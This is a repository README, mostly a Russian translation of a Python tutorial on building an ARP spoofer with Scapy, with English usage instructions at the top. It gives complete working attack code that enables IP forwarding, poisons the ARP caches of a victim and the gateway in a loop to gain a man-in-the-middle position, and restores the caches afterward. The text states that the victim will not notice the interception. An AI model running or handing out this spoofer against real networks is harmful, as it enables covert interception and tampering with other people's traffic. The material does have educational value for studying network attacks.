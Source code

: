 # [Building an ARP Spoofer](https://www.thepythoncode.com/article/building-arp-spoofer-using-scapy)
to run this:
- `pip3 install -r requirements.txt`
- 
    ```
    python3 arp_spoof.py --help
    ```
    **Output**:
    ```
    usage: arp_spoof.py [-h] [-v] target host

    ARP spoof script

    positional arguments:
    target         Victim IP Address to ARP poison
    host           Host IP Address, the host you wish to intercept packets for
                    (usually the gateway)

    optional arguments:
    -h, --help     show this help message and exit
    -v, --verbose  verbosity, default is True (simple message each second)
    ```
    For instance, if you want to spoof **192.168.1.2** and the gateway is **192.168.1.1**:
    ```
    python3 arp_spoof 192.168.1.2 192.168.1.1 --verbose
    ```
##
# [Building an ARP Spoofer](https://www.thepythoncode.com/article/building-arp-spoofer-using-scapy)
Что такое ARP Спуфинг
Короче говоря, это метод получения ситуации «человек посередине». Технически говоря, это метод, с помощью которого злоумышленник отправляет поддельные ARP-пакеты (ложные пакеты) в сеть (или конкретные хосты), позволяя злоумышленнику перехватывать, изменять или модифицировать сетевой трафик на лету.

Как только вы (как злоумышленник) станете человеком посередине, вы можете буквально перехватить или изменить все, что проходит в или из устройства жертвы. Итак, в этом уроке мы напишем скрипт Python, чтобы сделать именно это.

В обычной сети все устройства обычно обмениваются данными со шлюзом, а затем с Интернетом, как показано на следующем рисунке:

Регулярная сеть

Теперь злоумышленнику необходимо отправить ARP-ответы обоим хостам:

Отправка ARP-ответа шлюзу со словами«У меня есть IP-адрес жертвы».
Отправка ARP-ответа жертве, в котором говорится, что «у меня есть IP-адрес шлюза».
Подделка ARP

Как только злоумышленник выполнит атаку ARP Spoof, как показано на предыдущем рисунке, он окажется в ситуации «человек посередине»:

Человек в средней ситуацииВ этот момент, как только жертва отправляет какой-либо пакет (например, HTTP-запрос), он сначала передается на машину злоумышленника. Затем он перенаправит пакет на шлюз, поэтому, как вы можете заметить, жертва не знает об этой атаке. Другими словами, они не смогут понять, что на них нападают.

Ладно, хватит теории! Прежде чем мы начнем, вам необходимо установить необходимые библиотеки:

    ```
	pip3 install scapy
    ```
Проверьте этот учебник, чтобы заставить Scapy правильно работать на вашем компьютере, если вы используете Windows. Дополнительно необходимо установить pywin32, например:

    ```
	pip3 install pywin32
    ```

Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book
Написание скрипта Python
Прежде всего, нам нужно импортировать необходимые модули:
    ```
from scapy.all import Ether, ARP, srp, send
import argparse
import time
import os
import sys
    ```
Примечание: Вам нужно иметь библиотеку Scapy, установленную на вашем компьютере, перейдите к этому сообщению или официальному веб-сайту Scapy.

В начале я должен упомянуть, что нам нужно включить IP-пересылку.

Существует множество способов включения IP-маршрутизации на различных платформах. Тем не менее, я сделал модуль python здесь, чтобы включить IP-маршрутизацию в Windows, не беспокоясь ни о чем.

Для Unix-подобных пользователей (платформа, предлагаемая для этого учебника) вам нужно отредактировать файл "/proc/sys/net/ipv4/ip_forward", который требует доступа root, и поставить значение 1, которое указывает как включенное. Ознакомьтесь с этим руководством для получения дополнительной информации. Эта функция делает это в любом случае:
    ```
def _enable_linux_iproute():
    """
    Enables IP route ( IP Forward ) in linux-based distro
    """
    file_path = "/proc/sys/net/ipv4/ip_forward"
    with open(file_path) as f:
        if f.read() == 1:
            # already enabled
            return
    with open(file_path, "w") as f:
        print(1, file=f)
    ```
Для пользователей Windows после копирования services.py в текущий каталог можно скопировать и вставить следующую функцию:
    ```
def _enable_windows_iproute():
    """
    Enables IP route (IP Forwarding) in Windows
    """
    from services import WService
    # enable Remote Access service
    service = WService("RemoteAccess")
    service.start()
    ```
Приведенная ниже функция управляет включением IP-маршрутизации на всех платформах:
    ```
def enable_ip_route(verbose=True):
    """
    Enables IP forwarding
    """
    if verbose:
        print("[!] Enabling IP Routing...")
    _enable_windows_iproute() if "nt" in os.name else _enable_linux_iproute()
    if verbose:
        print("[!] IP Routing enabled.")
    ```
Теперь давайте перейдем к классным вещам. Во-первых, нам нужна функция утилиты, которая позволяет нам получить MAC-адрес любой машины в сети:
    ```
def get_mac(ip):
    """
    Returns MAC address of any device connected to the network
    If ip is down, returns None instead
    """
    ans, _ = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip), timeout=3, verbose=0)
    if ans:
        return ans[0][1].src
    ```
Связанные с: Как сделать изменение MAC-адреса в Python

Мы используем функцию srp() Scapy, которая отправляет запросы в виде пакетов и продолжает прослушивать ответы; в этом случае мы отправляем запросы ARP и прослушиваем любые ответы ARP.

Во-вторых, мы собираемся создать функцию, которая выполняет основную работу этого учебника; учитывая целевой IP-адрес и IP-адрес хоста, он изменяет кэш ARP целевого IP-адреса, говоря, что у нас есть IP-адрес хоста:
    ```
def spoof(target_ip, host_ip, verbose=True):
    """
    Spoofs `target_ip` saying that we are `host_ip`.
    it is accomplished by changing the ARP cache of the target (poisoning)
    """
    # get the mac address of the target
    target_mac = get_mac(target_ip)
    # craft the arp 'is-at' operation packet, in other words; an ARP response
    # we don't specify 'hwsrc' (source MAC address)
    # because by default, 'hwsrc' is the real MAC address of the sender (ours)
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, op='is-at')
    # send the packet
    # verbose = 0 means that we send the packet without printing any thing
    send(arp_response, verbose=0)
    if verbose:
        # get the MAC address of the default interface we are using
        self_mac = ARP().hwsrc
        print("[+] Sent to {} : {} is-at {}".format(target_ip, host_ip, self_mac))
    ```
Связанные с: Создание 24 этических хакерских скриптов и инструментов с помощью Python Book

Приведенный выше код получает MAC-адрес цели, создает вредоносный пакет ответа (ответа) ARP, а затем отправляет его.

Как только мы захотим остановить атаку, нам нужно переназначить реальные адреса целевому устройству (а также шлюзу), если мы этого не сделаем, жертва потеряет подключение к Интернету, и будет очевидно, что что-то произошло, мы не хотим этого делать, мы отправим семь законных пакетов ответа ARP (обычная практика) последовательно:
    ```
def restore(target_ip, host_ip, verbose=True):
    """
    Restores the normal process of a regular network
    This is done by sending the original informations 
    (real IP and MAC of `host_ip` ) to `target_ip`
    """
    # get the real MAC address of target
    target_mac = get_mac(target_ip)
    # get the real MAC address of spoofed (gateway, i.e router)
    host_mac = get_mac(host_ip)
    # crafting the restoring packet
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, hwsrc=host_mac, op="is-at")
    # sending the restoring packet
    # to restore the network to its normal process
    # we send each reply seven times for a good measure (count=7)
    send(arp_response, verbose=0, count=7)
    if verbose:
        print("[+] Sent to {} : {} is-at {}".format(target_ip, host_ip, host_mac))
    ```
Это было похоже на функцию spoof(), и единственное отличие заключается в том, что она отправляет несколько легитимных пакетов. Другими словами, он посылает правдивую информацию.

Теперь нам нужно будет написать основной код, который подделывает оба; цель и хост (шлюз) бесконечно до тех пор, пока не будет обнаружен CTRL+C, поэтому мы восстановим исходные адреса:
    ```
if __name__ == "__main__":
    # victim ip address
    target = "192.168.1.100"
    # gateway ip address
    host = "192.168.1.1"
    # print progress to the screen
    verbose = True
    # enable ip forwarding
    enable_ip_route()
    try:
        while True:
            # telling the `target` that we are the `host`
            spoof(target, host, verbose)
            # telling the `host` that we are the `target`
            spoof(host, target, verbose)
            # sleep for one second
            time.sleep(1)
    except KeyboardInterrupt:
        print("[!] Detected CTRL+C ! restoring the network, please wait...")
        restore(target, host)
        restore(host, target)
    ```
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Я запустил сценарий на машине Linux. Вот скриншот моего результата:

Результат выполнения скрипта ARP Spoof

В этом примере я использовал свой персональный компьютер в качестве жертвы. Если вы попытаетесь проверить кэш ARP:

После атаки подмены ARP

Вы увидите, что MAC-адрес злоумышленника (в данном случае «192.168.1.105») совпадает с адресом шлюза. Мы абсолютно одурачены!

На компьютере злоумышленника, когда вы нажимаете CTRL + C, чтобы закрыть программу, вот скриншот процесса восстановления:

Восстановление исходных адресов

Вернувшись к компьютеру жертвы, вы увидите, что исходный MAC-адрес шлюза восстановлен: